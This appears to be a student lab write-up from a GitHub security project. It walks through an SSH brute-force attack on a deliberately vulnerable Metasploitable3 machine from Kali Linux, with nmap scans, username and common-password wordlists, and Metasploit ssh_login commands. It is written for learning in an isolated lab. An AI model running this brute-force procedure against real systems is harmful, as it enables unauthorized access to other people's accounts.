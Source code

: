 # Phase 1: Setup and Compromise the SSH Service

## Task 1.1: Compromise the SSH Service Using Metasploit

---

## 🎯 Objective
The goal of this task is to **gain unauthorized SSH access** to the victim machine (Metasploitable3) by performing a **brute-force attack** using **Metasploit**. We'll use the Metasploit module `auxiliary/scanner/ssh/ssh_login` to discover valid login credentials.

---

## 🖥️ Environment Setup

- **Attacker Machine**: Kali Linux 
- **Victim Machine**: Metasploitable3 
- **Target Service**: SSH
- **Target IP Address**: `192.168.56.102`
- **SSH Port**: 22 (default)

---

## 🔹 Step 1: Identify Target IP Address

On the victim machine (Metasploitable3), run the following command to get the IP address:
```bash
ifconfig
```


📸 Screenshot:

![Victim IP Address](https://github.com/jalsayid/Security-project/blob/dc3eb3a50f16f591446ceccfcf2ff306de2c5ca3/Phase1/screenshots/ip%20address%20of%20metasploitable%203%20(1).png)

---

## 🔹 Step 2: Test Connectivity

On the attacker machine (Kali Linux), we test if the victim machine is reachable over the network. This is done using the `ping` command to ensure that packets can be sent and received from the target IP.

```bash
ping 192.168.56.102
```


📸 Screenshot:

![test connectivity](https://github.com/jalsayid/Security-project/blob/983fe310f387ed02dc4abba13caba27e241a72da/Phase1/screenshots/testing%20VM%20connectivity%20from%20attacker%20(kali).png)

---

## 🔹 Step 3: Create Username and Password Files

Before running the brute-force attack, we need to prepare two text files:
- One containing possible usernames.
- One containing possible passwords.

These files will be used by Metasploit's `ssh_login` module.

Example content for `username` file:
```bash
msfadmin
admin
root
user
test
postgres
ubuntu
kali
vagrant
guest
oracle
administrator
ftp
support
webadmin
sysadmin
backup
mysql
pi
john
```

Example content for `password` file:
```bash
msfadmin
admin
123456
password
12345
123456789
12345678
1234
1234567
1234567890
admin123
root
toor
kali
guest
letmein
qwerty
abc123
111111
123123
vagrant
welcome
iloveyou
password1
123qwe
1q2w3e4r
000000
passw0rd
dragon
monkey
loveme
qwertyuiop
```


📸 Screenshot:

![test connectivity](https://github.com/jalsayid/Security-project/blob/fc2e81dd5e1a870890534e157783733ea46e9bea/Phase1/screenshots/files.png)

---

## 🔹 Step 4: Perform a Basic Nmap Scan

To check which ports are open on the victim machine, we start with a basic Nmap scan from the attacker machine (Kali Linux). This helps us discover services like SSH running on the target.

```bash
nmap 192.168.56.102
```

📸 Screenshot:

![nmap](https://github.com/jalsayid/Security-project/blob/83631ae4769ad8e04f964d0a4d6c37bc944ce80a/Phase1/screenshots/nmap.png)

---

## 🔹 Step 5: Perform a Detailed Nmap Scan with `-A`

After confirming that port 22 (SSH) is open using a basic scan, we run a detailed Nmap scan to gather more information about the services and operating system running on the victim machine.

This helps confirm the SSH version and identify the system fingerprint.

```bash
nmap -A 192.168.56.102
```

📸 Screenshot:

![nmap a](https://github.com/jalsayid/Security-project/blob/83631ae4769ad8e04f964d0a4d6c37bc944ce80a/Phase1/screenshots/nmap%20-a.png
)

## 🔹 Step 6: Start Metasploit and Load the SSH Login Module

Now that we’ve confirmed the SSH service is running on the victim, we start Metasploit on Kali Linux to launch the brute-force attack.

Start Metasploit:
```bash
sudo msfconsole
```

Search for the SSH login scanner module:
```bash
search ssh_login
```

From the list of matching modules, we will use the one for SSH login:
```bash
use 0
```

📸 Screenshot:

![search](https://github.com/jalsayid/Security-project/blob/5d4b10f49c23ea8938e5bdc0282f657a2d581f3e/Phase1/screenshots/start%20metasploit%20and%20search%20(1).png)

---

## 🔹 Step 7: Configure and Run the Exploit

Once the SSH login module is loaded in Metasploit, we configure the necessary options to launch the brute-force attack using our `username` and `password` files.

Set the required parameters:
```bash
set rhosts 192.168.56.102
set user_file Desktop/username
set pass_file Desktop/password
set verbose true
set stop_on_success true
```
And then we run the exploit:
```bash
exploit
```

📸 Screenshot:

![exploit]()












